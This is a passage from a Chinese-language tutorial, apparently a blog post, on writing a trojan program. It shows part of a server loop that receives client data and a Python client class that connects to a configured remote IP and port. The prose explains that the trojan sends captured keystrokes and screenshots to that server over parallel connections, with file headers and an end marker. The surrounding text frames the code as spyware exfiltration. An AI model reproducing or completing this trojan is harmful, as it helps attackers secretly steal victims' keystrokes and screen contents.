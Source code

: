 ```
    pass
# 开启死循环，接受客户端的请求
while True:
    conn, addr = sk.accept()
    header_message = conn.recv(1024)
    # 获取客户端请求数据
    client_data = conn.recv(1024*10)
    # 数据进行业务处理
    data_handle(client_data)
    conn.close()
sk.close()

```

接下来的我们讨论客户端的实现，客户端的编程的基本模型比服务端要简单一些。只有两个步骤：

- 与服务器进行连接
- 和服务器进行数据通讯

现在思考一下在这个木马程序中我们需要给服务器发送那些数据，很容易分析出我们需要传输 <文件名，文件类型，文件的具体内容，结束标志>，为什么需要结束标志咧？因为客户端已经发送完数据了，需要通知服务器数据已经完成，可以断开连接了，这个时候客户端和服务器就能正常断开连接，将资源还给操作系统了。

现在我们开始思考如何实现客户端的功能，让我们再次梳理一下客户端的功能:

- 建立与服务器的连接
- 发送文件名和文件类型（简称消息头部）
- 发送文件的具体内容
- 发送结束标志

在本程序中我们除了发送键盘输入数据外还有屏幕截图，因为这两个功能是并行执行的，所以这两类数据的发送不能共用同一个服务器连接 (否则键盘数据和图像数据混合在一起就没法区分了)。本程序维护了一个服务器连接的类,

```
class NetworkClient(object):
    def __init__(self, config):
        self.server_ip = config['IP']
        self.server_port = config['PORT']
        # 新建一个scoket对象
        self.sock = socket.socket()
        # 建立与服务器的连接
        self.sock.connect((self.server_ip, self.server_port))

    def send_data(self, data):
        # 发送数据到服务器
        ret = self.sock.sendall(data)
        assert ret != -1

    def destroy(self):
        # 断开与服务器的连接
        try:
            self.sock.close()
        except Exception as e:
            print e

```
